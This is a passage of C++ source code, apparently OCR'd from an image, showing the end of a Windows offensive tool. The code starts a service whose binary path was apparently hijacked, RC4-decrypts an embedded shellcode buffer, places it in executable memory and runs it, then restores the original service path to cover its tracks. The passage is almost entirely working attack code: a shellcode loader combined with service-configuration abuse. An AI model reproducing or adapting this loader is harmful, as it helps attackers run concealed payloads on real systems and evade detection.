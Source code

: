 ```cpp
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        LocalFree(originalConfig);
        return 1;
    }

    // Start the service
    if (!StartServiceA(service, 0, NULL)) {
        std::cerr << "Failed to start service. Error: " << GetLastError() << std::endl;
        ChangeServiceConfigA(service, SERVICE_NO_CHANGE, SERVICE_NO_CHANGE, SERVICE_NO_CHANGE, originalConfig->lpBinaryPathName, NULL, NULL, NULL, NULL, NULL, NULL);
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        LocalFree(originalConfig);
        return 1;
    }

    std::cout << "Service started successfully." << std::endl;

    // Decrypt the shellcode
    RC4(buf, BUF_SIZE, key, sizeof(key));

    // Allocate memory for the shellcode
    void* exec_mem = VirtualAlloc(0, BUF_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "VirtualAlloc failed. Error: " << GetLastError() << std::endl;
        ChangeServiceConfigA(service, SERVICE_NO_CHANGE, SERVICE_NO_CHANGE, SERVICE_NO_CHANGE, originalConfig->lpBinaryPathName, NULL, NULL, NULL, NULL, NULL, NULL);
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        LocalFree(originalConfig);
        return -1;
    }

    // Copy the decrypted shellcode to the allocated memory
    memcpy(exec_mem, buf, BUF_SIZE);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    // Restore the original service binary path
    if (!ChangeServiceConfigA(service, SERVICE_NO_CHANGE, SERVICE_NO_CHANGE, SERVICE_NO_CHANGE, originalConfig->lpBinaryPathName, NULL, NULL, NULL, NULL, NULL, NULL)) {
        std::cerr << "Failed to restore original service binary path. Error: " << GetLastError() << std::endl;
    } else {
        std::cout << "Service binary path restored to original." << std::endl;
    }

    // Clean up
    CloseServiceHandle(service);
    CloseServiceHandle(scManager);
    LocalFree(originalConfig);

    return 0;
}
```
